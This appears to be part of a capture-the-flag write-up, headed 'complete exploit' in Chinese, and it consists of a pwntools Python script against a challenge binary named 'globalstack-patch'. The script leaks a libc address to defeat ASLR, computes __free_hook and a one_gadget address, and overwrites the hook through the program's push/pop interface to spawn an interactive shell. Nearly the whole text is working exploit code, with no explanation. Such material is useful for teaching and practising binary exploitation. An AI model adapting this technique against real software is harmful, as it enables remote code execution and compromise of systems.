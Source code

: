 完整 exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./globalstack-patch")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe


def main():
    r = process("./globalstack-patch")
    r = remote("0.0.0.0","11101")
    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"pop") # leak libc base address
    IO_2_1_stdin = int(r.recvline().decode().split(" ")[1])
    log.success(f"IO_2_1_stdin address : {hex(IO_2_1_stdin)}")
    
    libc_offset = libc.symbols["_IO_2_1_stdin_"]
    log.success(f"libc offect : {hex(libc_offset)}") # 0x1ec980
    libc_base = IO_2_1_stdin - libc_offset
    log.success(f"libc base : {hex(libc_base)}")
    
    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"pop")
    r.sendlineafter(">> ",b"pop") # find top address

    free_hook = libc_base + 0x1eee48
    log.success(f"__free_hook : {hex(free_hook)}")
    one_gadget = libc_base + 0xe3b01
    log.success(f"one_gadget : {hex(one_gadget)}")
    r.sendlineafter(">> ",b"push " + str(free_hook - 8).encode())
    r.sendlineafter(">> ",b"push " + str(one_gadget).encode())
    r.sendlineafter(">> ",b"exit")
    
    r.interactive()


if __name__ == "__main__":
    main()

```